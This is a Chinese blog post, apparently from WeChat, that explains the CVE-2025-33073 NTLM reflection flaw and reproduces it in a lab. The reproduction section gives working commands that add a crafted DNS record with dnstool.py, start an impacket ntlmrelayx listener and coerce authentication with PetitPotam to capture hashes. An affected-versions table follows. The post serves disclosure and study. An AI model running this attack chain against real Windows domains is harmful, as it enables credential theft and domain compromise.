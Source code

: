 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzk3NTU0OTAwOQ==&mid=2247483847&idx=1&sn=091150b687d6366c68918915aac717c8

#  域大杀器 CVE-2025-33073 NTLM反射  
原创 想要暴富的友人A  想要暴富的安服仔   2025-06-15 05:05  
  
#   
## CVE-2025-33073  
### 本地 NTLM 身份验证  
  
NTLM 本地身份验证  
是 NTLM 身份验证的一种特殊情况正常 NTLM 认证是三个阶段  
1. NEGOTIATE  
  
1. CHALLENGE  
  
1. AUTHENTICATE，  
  
如果客户端和服务器被判定为“本地调用”，服务器在 CHALLENGE 阶段就指示客户端无需计算 NTLM 响应，而是直接将 当前令牌（如 SYSTEM）传给服务器使用。  
> 关键标志位是：NTLMSSP_NEGOTIATE_LOCAL_CALL (0x4000)  
> 被放在 NTLM_CHALLENGE 消息中，提示客户端走本地身份验证流程。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UENC9icl022rFZd6ZeicZnWI5Pr3RYU20lm5zHLHYICRNxNzOEfbJF1ibeQXrchhoibG4L8dzwT1z37hzu0d8P3obg/640?wx_fmt=png&from=appmsg "")  
  
当服务器判断“你连的是本地机器”时，它会启用一个特殊机制来省略加密计算，直接共享进程令牌，流程变为：  
1. 客户端发送 NEGOTIATE  
  
➜ 包含工作站名和域名，服务器一看：咦？你是我自己！  
  
1. 服务器返回 CHALLENGE  
  
设置   

```
NTLMSSP_NEGOTIATE_LOCAL_CALL
```

  
  
 附带一个“上下文 ID”，用来代表我在本机 lsass 进程中建了一个 context。  
  
1. 客户端一看是本地调用  
  
 它就不计算 NTLM 响应，而是：  
  
把自己当前的 Token（例如 SYSTEM）加入服务器那个上下文中  
  
1. 客户端发回 AUTHENTICATE（几乎是空的！）  
  
➜ 不包含加密回应，只带一个 ID，告诉服务器：我已经把 Token 放到你那儿了。  
  
1. 服务器拿着 Token 开始模拟进行操作  
  
### 漏洞复现  
  
<table><thead><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;"><th style="box-sizing: border-box;padding: 5px 10px;border: 1px solid rgb(204, 204, 204);font-size: 1rem;text-align: left;font-weight: bold;background-color: rgb(240, 240, 240);"><span cid="n53" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 440.828125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">IP</span></span></span></th><th style="box-sizing: border-box;padding: 5px 10px;border: 1px solid rgb(204, 204, 204);font-size: 1rem;text-align: left;font-weight: bold;background-color: rgb(240, 240, 240);"><span cid="n54" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 133.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">系统</span></span></span></th><th style="box-sizing: border-box;padding: 5px 10px;border: 1px solid rgb(204, 204, 204);font-size: 1rem;text-align: left;font-weight: bold;background-color: rgb(240, 240, 240);"><span cid="n55" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 201.875px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">说明</span></span></span></th></tr></thead><tbody><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n57" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 440.828125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">10.211.55.8</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n58" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 133.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">kali</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n59" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 201.875px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">攻击机</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n61" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 440.828125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">10.211.55.33（</span></span><span md-inline="link" style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">srv.redteam.com</span></span></span><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">）</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n62" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 133.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Win2016</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n63" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 201.875px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">目标机器</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n65" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 440.828125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">10.211.55.34 (</span></span><span md-inline="link" style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">dc.redteam.com</span></span></span><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">)</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n66" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 133.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Win2016</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n67" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 201.875px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">DNS、DC机器</span></span></span></td></tr></tbody></table>  
添加恶意dns解析  

```
python3 dnstool.py -u 'redteam\john' -p 'user@123' 10.211.55.33 -a add -r srv1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 10.211.55.8
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/UENC9icl022rFZd6ZeicZnWI5Pr3RYU20lYqT08YwWXCtTP764TyNRaibeUcFc4vkhEomWjwUe3jZ8txicyTNpQTzw/640?wx_fmt=png&from=appmsg "")  
  
监听请求  

```
impacket-ntlmrelayx-tsrv.redteam.com-smb2support
```


```

```

  
![](https://mmbiz.qpic.cn/mmbiz_png/UENC9icl022rFZd6ZeicZnWI5Pr3RYU20lcWiaICE5h6OVXgnXIYsK6AocGtOOjZL1icl9d4eckwKI5RiaWRmjQonvg/640?wx_fmt=png&from=appmsg "")  
  
  
触发强制连接  

```
python3 PetitPotam.py -u john -p 'user@123' -d redteam.com srv1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA srv.redteam.com         
```

  
成功触发获取hash  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UENC9icl022rFZd6ZeicZnWI5Pr3RYU20lqIqfdPwxQCoZR9ics5gIe41mkeEOh2eLbHibbmfjODibk8joxlibjib0wYg/640?wx_fmt=png&from=appmsg "")  
  
### 漏洞影响范围  
  
<table><thead><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;"><th style="box-sizing: border-box;padding: 5px 10px;border: 1px solid rgb(204, 204, 204);font-size: 1rem;text-align: left;font-weight: bold;background-color: rgb(240, 240, 240);"><span cid="n82" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 231.171875px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">操作系统/版本</span></span></strong></span></span></th><th style="box-sizing: border-box;padding: 5px 10px;border: 1px solid rgb(204, 204, 204);font-size: 1rem;text-align: left;font-weight: bold;background-color: rgb(240, 240, 240);"><span cid="n83" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 68.515625px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">是否受影响</span></span></span></th><th style="box-sizing: border-box;padding: 5px 10px;border: 1px solid rgb(204, 204, 204);font-size: 1rem;text-align: left;font-weight: bold;background-color: rgb(240, 240, 240);"><span cid="n84" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 476.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">说明</span></span></span></th></tr></thead><tbody><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n86" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 231.171875px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Windows 11（22H2、23H2、24H2）</span></span></strong></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n87" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 68.515625px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">❌ 没有</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n88" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 476.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">默认情况下得到缓解；MS-EFSRPC 得到强化并且 NTLM 的使用受到限制。</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n90" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 231.171875px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Windows Server 2025（预览版）</span></span></strong></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n91" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 68.515625px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">❌ 没有</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n92" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 476.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">最新版本默认已阻止强制执行。</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n94" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 231.171875px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Windows Server 2022</span></span></strong></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n95" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 68.515625px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">❌ 没有</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n96" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 476.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">发布前已修补；默认情况下缓解 MS-EFSRPC。</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n98" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 231.171875px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Windows 服务器 2019</span></span></strong></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n99" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 68.515625px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">✅ 是的</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n100" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 476.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">除非完全修补并配置 NTLM 限制，否则仍然有效。</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n102" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 231.171875px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Windows 服务器 2016</span></span></strong></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n103" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 68.515625px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">✅ 是的</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n104" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 476.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">MS-EFSRPC 接口仍然可用；默认允许 NTLM。</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n106" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 231.171875px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Windows Server 2012 R2</span></span></strong></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n107" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 68.515625px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">✅ 是的</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n108" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 476.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">强制开箱即用；需要手动强化。</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: white;"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n110" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 231.171875px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Windows Server 2008 R2</span></span></strong></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n111" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 68.515625px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">✅ 是的</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n112" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 476.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">如果未修补则完全容易受到攻击；没有默认缓解措施。</span></span></span></td></tr><tr style="box-sizing: border-box;break-inside: avoid;break-after: auto;border-width: 1px 0px 0px;border-top-style: solid;border-top-color: rgb(204, 204, 204);background-color: rgb(248, 248, 248);"><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n114" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 231.171875px;min-height: 10px;"><span md-inline="strong" style="box-sizing: border-box;"><strong style="box-sizing: border-box;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">Windows 10（最高至 21H2）</span></span></strong></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n115" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 68.515625px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">✅ 是的</span></span></span></td><td style="box-sizing: border-box;padding: 5px 10px;min-width: 32px;font-size: 1rem;border: 1px solid rgb(204, 204, 204);text-align: left;"><span cid="n116" mdtype="table_cell" style="box-sizing: border-box;display: inline-block;min-width: 1ch;width: 476.328125px;min-height: 10px;"><span md-inline="plain" style="box-sizing: border-box;"><span leaf="">除非修补，否则容易受到攻击；如果启用了 NTLM，EFSRPC 强制就会起作用。</span></span></span></td></tr></tbody></table>### 参考连接  
  
https://www.synacktiv.com/publications/ntlm-reflection-is-dead-long-live-ntlm-reflection-an-in-depth-analysis-of-cve-2025  
  
https://github.com/mverschu/CVE-2025-33073  
  
